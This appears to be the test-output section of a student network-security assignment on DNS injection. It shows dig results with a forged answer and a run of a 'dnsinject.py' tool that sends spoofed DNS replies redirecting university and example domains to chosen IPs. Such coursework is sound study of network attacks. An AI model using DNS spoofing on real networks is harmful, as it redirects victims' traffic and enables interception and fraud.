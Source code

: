 DIG Output:
ubuntu@ubuntu:~$ dig apple.com

; <<>> DiG 9.10.3-P4-Ubuntu <<>> apple.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 54722
;; flags: qr rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;apple.com.			IN	A

;; ANSWER SECTION:
apple.com.		736	IN	A	17.172.224.47
apple.com.		736	IN	A	17.178.96.59
apple.com.		736	IN	A	17.142.160.59

;; Query time: 4 msec
;; SERVER: 127.0.0.53#53(127.0.0.53)
;; WHEN: Sun Dec 10 20:33:04 UTC 2017
;; MSG SIZE  rcvd: 86

ubuntu@ubuntu:~$ dig iiit.ac.in

; <<>> DiG 9.10.3-P4-Ubuntu <<>> iiit.ac.in
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 63333
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 65494
;; QUESTION SECTION:
;iiit.ac.in.			IN	A

;; ANSWER SECTION:
iiit.ac.in.		10	IN	A	172.31.233.45           --- Forged Response Sent as Query time > 10 msec

;; Query time: 22 msec
;; SERVER: 127.0.0.53#53(127.0.0.53)
;; WHEN: Sun Dec 10 20:33:34 UTC 2017
;; MSG SIZE  rcvd: 55



####### TC2:
Part 1:
rahuls-MacBook-Pro:NetSecAss4 rsihag$ python dnsinject.py -i en0 -h hostnames 
Interface: en0 Hostnames: hostnames Expression: [] Local IP: 172.31.233.45
Hostnames: {'cs.stonybrook.edu': '192.168.66.6', 'www.bar.example.com': '10.6.6.6', 'www.cs.stonybrook.edu': '192.168.66.6', 'foo.example.com': '10.6.6.6', 'bar.example.com': '10.6.6.6', 'www.foo.example.com': '10.6.6.6'}
.
Sent 1 packets.
Sent Spoofed Packet:  IP / UDP / DNS Ans "192.168.66.6"  For Request: www.cs.stonybrook.edu. From: 172.31.232.187 TXID: 0xe8f8
